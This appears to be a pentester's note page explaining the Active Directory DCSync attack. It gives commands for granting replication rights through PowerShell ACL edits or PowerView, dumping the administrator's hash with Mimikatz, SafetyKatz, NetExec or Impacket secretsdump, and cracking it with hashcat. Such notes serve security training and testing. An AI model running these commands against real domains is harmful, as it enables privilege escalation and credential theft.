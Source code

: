 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DCSync

In Active Directory environments, multiple Domain Controllers (DCs) replicate data using the Directory Replication Service Remote Protocol (DRSR). The DCSync technique abuses this by **impersonating a DC and requesting user credential data**—essentially pulling `ntds.dit` contents over the network without code execution on a real DC. Critically, DCs do not authenticate the source of the replication request, only that the caller’s SID has the necessary replication privileges.

To perform DCSync, an attacker must control an account with the following rights: `Replicating Directory Changes`, `Replicating Directory Changes All`, and sometimes `Replication-Get-Changes-In-Filtered-Set`. These are assigned by default to Domain Admins, Enterprise Admins, and built-in Administrators.&#x20;

However, if you have [`WriteDACL`](../permissions/writedacl.md) over a privileged account, you can delegate these rights yourself. Notably, the [Exchange Windows Permissions](../groups/exchange-windows-permissions.md) group often has DCSync rights in enterprise environments. For an example of levearing `WriteDACL` to perform DCSync see [Forest](../../../boxes/easy/forest.md).

## Tools

{% tabs %}
{% tab title="Windows" %}
We can enumerate permissions using an elevated CMD or PS session.

```powershell
# Command Prompt
dsacls "DC=domain,DC=local"
# PowerShell
Get-DomainObjectAcl -Identity <USER> -Domain domain.local -ResolveGUIDs
```

We can assign DCSync rights manually or automatically using [PowerView](../ad-tools/powerview.md) or `DCSync.py`.

> _The manual way is explained_ [_here_](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md)_._

{% code overflow="wrap" %}
```powershell
# Manually
$acl = get-acl "ad:DC=domain,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=domain,DC=local"

# PowerView
Add-DomainObjectAcl -TargetIdentity "DC=domain,DC=local" -PrincipalIdentity <USER> -Rights DCSync
```
{% endcode %}

Once the rights have been assigned, we can perform the attack with [`mimikatz`](../ad-tools/mimikatz.md).

```powershell
# Mimikatz (PS script)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\administrator"'
# Mimikatz (binary)
mimikatz # lsadump::dcsync /domain:DOMAIN.LOCAL /user:administrator
```

Finally, we can crack the hash using [`hashcat`](../../../tools/passwords/hashcat.md) on our attacking machine.

{% code overflow="wrap" %}
```bash
hashcat -m 1000 hashes.dcsync rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}

{% tab title="Linux" %}


We can assign DCSync rights using `DCSync.py`.

{% code overflow="wrap" %}
```bash
# DCSync.py
DCSync.py -dc domain.local -t 'CN=<USER>,CN=Users,DC=domain,DC=local' 'domain.local\<USER>:<PASS>'
```
{% endcode %}

We can also perform the attack with [`NetExec`](dcsync.md#netexec) or [Impacket](../ad-tools/impacket.md)'s `secretsdump` script.

```bash
# NetExec
nxc smb 10.10.10.161 -u '<USER>' -p '<PASS>' --ntds --user administrator

# Impacket's secretsdump
impacket-secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
```

> _For an example of a DCSync attack using `DCSync.py` and `secretsdump.py` see_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/active#eop-via-kerberoasting)_. For an example of a DCSync attack using NetExec see_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/sauna#dcsync-attack)_._

Finally, we can crack the hash using [`hashcat`](../../../tools/passwords/hashcat.md) on our attacking machine.

{% code overflow="wrap" %}
```bash
hashcat -m 1000 hashes.dcsync rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}

{% tab title="SafetyKatz" %}
SafetyKatz can be used to perform a DCSync attack:

```powershell
.\SafetyKatz.exe "privilege::debug" "lsadump::dcsync /user:dcorp\ktbtgt" "exit"
```
{% endtab %}
{% endtabs %}

## Resources

* An in-depth article about DCSync from Altered Security ([article](https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection))
* What `impacket-secretsdump` does behind the scenes ([video](https://www.youtube.com/watch?v=QfyZQDyeXjQ))
